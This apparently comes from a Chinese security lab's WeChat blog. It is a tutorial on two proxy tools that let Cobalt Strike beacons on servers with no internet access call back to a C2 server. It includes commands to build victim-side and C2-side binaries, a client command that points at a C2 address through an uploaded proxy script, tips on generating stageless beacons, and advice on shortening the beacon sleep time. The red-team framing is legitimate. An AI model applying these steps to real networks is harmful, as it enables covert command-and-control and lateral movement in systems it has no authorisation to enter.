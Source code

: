 #  工具推荐之不出网环境下上线CS

原创 烽火台实验室  [ Beacon Tower Lab ](javascript:void\(0\);)

**Beacon Tower Lab** ![]()

微信号 WebRAY_BTL

功能介绍 "海上千烽火，沙中百战场"，烽火台实验室将为您持续输出前沿的安全攻防技术

____

___发表于_

收录于合集

  

**前言**

  

在实战攻防演练中，我们经常会遇到目标不出网的情况，即便获取了目标权限也不方便在目标网络进行下一步横向移动。本期我们将会推荐两个常用的代理工具，使我们能在不出网的环境下让目标上线到CS，方便后渗透的工作。

  

  

 **工具1：DReverseServer**

  

 **工具链接：**

https://github.com/Daybr4ak/C2ReverseProxy

  

 **工具原理：**

利用代理转发将目标服务器上的CS的流量特征转发到CS服务端上，类似模拟一个木马在本地Listener进行上线。

  

 **官方使用说明：**

1、将C2script目录下的对应文件，如proxy.ashx 以及C2ReverseServer上传到目标服务器。

2、使用C2ReverseServer建立监听端口：

./C2ReverseServer  (默认为64535)

3、修改C2script目录下对应文件的PORT，与C2ReverseServer监听的端口一致。

4、本地或C2服务器上运行C2ReverseClint工具

./C2ReverseClint -t C2IP:C2ListenerPort -u http://example.com/proxy.php
(传送到目标服务器上的proxy.php路径)

5、使用CobaltStrike建立本地Listener(127.0.0.1 64535)端口与C2ReverseServer建立的端口对应

6、使用建立的Listner生成可执行文件beacon.exe传至目标服务器运行

7、可以看到CobaltStrike上线。

![]()

 **DReverseServer复现步骤**

  

 **1、放置脚本文件到目标服务器**

![]()

  

 **2、编译服务端程序**

 **  
**

在cmd命令行输入 CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build
DReverseServer.go完成受害者端应用程序编译。

![]()

  

 **3、编译CS端程序**

 **  
**

在cmd命令行输入CGO_ENABLED=0 GOOS=darwin GOARCH=amd64 go build
DReverseClint.go完成CS端应用程序编译。  

![]()

  

 **4、生成stagerless木马**

 **  
**

Staged 和 Stageless 的区别在于Staged实际功能只是程序执行后和C2
建立连接并接收真正的shellcode,然后加载执行(这里服务器不出网所以导致无法正常建立连接)；而 Stageless 直接省去了接收 Payload
的步骤 。  

![]()

  

 **5、目标客户端监听**

![]()

  

 **6、CS端监听**

![]()

  

 **7、等待上线**

![]()

  

 **8、注意事项**

 **  
**

a) 本地复现php脚本需打开socket选项。

![]()

  

b)
建议用户对CS的jar文件中的/resources/default.profile进行修改，将sleeptime值修改1000以下，这样CS生存的木马上线就不用默认等待60秒。

![]()

  

 **工具2：pystinger**

  

 **工具链接：**

https://github.com/FunnyWolf/pystinger/  

  

 **工具原理：**

利用内网反向代理转发将目标服务器上的木马上线与连接、操作流量特征通过HTTP协议方式转发至C2服务端，使其目标在不出网情况下上线MSF、viper、CS。

  

 **官方使用说明：**

详见https://github.com/FunnyWolf/pystinger/blob/master/readme_cn.md

  

 **pystinger复现步骤**

 **  
**

工具可分为2块内容：

  

1、stinger_server程序+proxy脚本。

2、stinger_client程序+木马程序

![]()

  

 **1、放置脚本文件到目标服务器**

 **  
**

访问下图页面代表成功。

![]()

  

 **2、在目标机器运行stinger_server**

![]()

  

 **3、在CS端运行stinger_client**

![]()

  

 **4、生成木马**

 **  
**

根据stinger_server反馈的Payload端口，在CS界面新增一个Listener，并使用这个Listener新生成一个恶意木马。

![]()

  

我们通过命令界面能看到网络连接详情，最后愉快的开启内网渗透。

![]()![]()![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

